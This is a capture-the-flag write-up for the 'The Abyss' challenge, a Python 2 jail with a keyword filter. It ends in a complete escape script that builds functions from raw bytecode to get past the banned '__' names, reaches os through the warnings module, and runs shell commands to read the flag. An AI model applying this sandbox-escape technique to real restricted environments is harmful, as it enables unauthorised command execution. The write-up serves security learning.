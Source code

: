 ### The Abyss
*Written by nthistle*
#### Problem Statement

If you stare into the abyss, the abyss stares back.

`nc problem1.tjctf.org 8006`

#### Observations

The first observation is that this is a Python environment. 

However, further experimentation reveals that all our errors are eaten up with a cute message.
```
>>> blahblop
The Abyss consumed your error.
```

Furthermore, some words seem to be banned. 
```
>>> ().__class__
Sorry, '__class__' is not allowed.
>>> lol__class__lol
Sorry, '__class__' is not allowed.
>>> __clas__
Sorry, '__' is not allowed.
```

It seems there is a word filter. We can't have certain strings in our code. In particular, "\_\_" is banned.

We would like to use solution #4 from [here](https://github.com/lucyoa/ctf-wiki/tree/master/pwn/python-sandbox). 
```
classes = {}.__class__.__base__.__subclasses__()
b = classes[49]()._module.__builtins__
m = b['__import__']('os')
m.system("test")
```

Unfortunately, we can't type out "\_\_class__". "exec" and "eval" are also banned. 

#### Solution
Googling for "CTF Python Jailbreak", we eventually come accross this [article](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/).

>Enter code objects. Python functions are actually objects which are made of a code object and a capture of their global variables. A code object contains the bytecode of that function, as well as the constant objects it refers to, some strings and names, and other metadata (number of arguments, number of locals, stack size, mapping from bytecode to line number). You can get the code object of a function using myfunc.func_code. This is forbidden in the restricted mode of the Python interpreter, so we can’t see the code of the auth function. However, we can craft our own functions like we crafted our own types!

```
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,),
                (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
# Outputs 42
```

This lets us bypass the word filter!

In particular, "ctype" lets us assemble arbitary functions. 

This [answer](https://stackoverflow.com/a/6613169/10178580) from StackOverflow gives us the arguments for the function ctype. 

This function prints out the arguments we need. 
```
#a is a function
def bash(a):
  print(a.func_code.co_argcount)
  print(a.func_code.co_nlocals)
  print(a.func_code.co_stacksize)
  print(a.func_code.co_flags)
  print(repr(a.func_code.co_code))
  print(repr(a.func_code.co_consts))
  print(repr(a.func_code.co_names))
  print(repr(a.func_code.co_varnames))
  print(repr(a.func_code.co_freevars))
  print(repr(a.func_code.co_cellvars))
```

With our function 
```
get_classes():
  return {}.__class__.__base__.__subclasses__()
```
we get 
<pre>
0 
0
1
67
'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S'
(None,)
('__class__', '__base__', '__subclasses__')
()
()
()
</pre>

Plugging these into the previous example, we get
```
get_classes = ftype(ctype(0, 1, 2, 67, 'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None,),("_"+"_class_"+"_","_"+"_base_"+"_","_"+"_subclasses_"+"_"), (), 'stdin', 'f', 1, ''), {})
```

Running this on the interpreter, we see that it works. 

We want `warnings.catch_warnings`, and a little bit of manual searching gives us index 59.
```
warnings = get_classes()[59]()
```

Next, we need to get the property `_module` of warnings. We use the same trick as before. 

```
getModule = ftype(ctype(1, 1, 1, 67, '|\x00\x00j\x00\x00S', (None,),("_"+"module",), ("warnings",), 'stdin', 'f', 1, ''), {})
```

Now,
`module = getModule(warnings)`

<pre>
>>> dir(module)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']
</pre>

We have access to sys! 

Now we can get access to os.
`os = module.sys.modules["os"]`

Running `os.system("ls")` and then `os.system("cat flag.txt")` finishes the problem.


#### Code
```
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
get_classes = ftype(ctype(0, 1, 2, 67, 'i\x00\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None,),("_"+"_class_"+"_","_"+"_base_"+"_","_"+"_subclasses_"+"_"), (), 'stdin', 'f', 1, ''), {})
warnings = get_classes()[59]()
getModule = ftype(ctype(1, 1, 1, 67, '|\x00\x00j\x00\x00S', (None,),("_"+"module",), ("warnings",), 'stdin', 'f', 1, ''), {})
module = getModule(warnings)
os = module.sys.modules["os"]
os.system("cat flag.txt")
```